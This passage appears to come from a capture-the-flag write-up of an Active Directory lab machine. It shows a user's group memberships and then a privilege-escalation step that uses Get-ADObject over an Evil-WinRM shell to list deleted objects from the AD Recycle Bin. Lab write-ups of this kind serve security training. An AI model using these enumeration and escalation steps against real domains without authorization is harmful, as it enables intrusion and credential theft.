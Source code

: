 ```PowerShell
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 9:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Once again, we see `AD Recycle Bin`, just like when we were looking at the SMB shares for `r.thompson` earlier. After some research, it seems this is a fairly common Windows group, and there might be a way to recover deleted items. Details can be found [here](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/).

## Privilege Escalation

### AD Recycle Bin

```PowerShell
*Evil-WinRM* PS C:\> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects 


Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
```
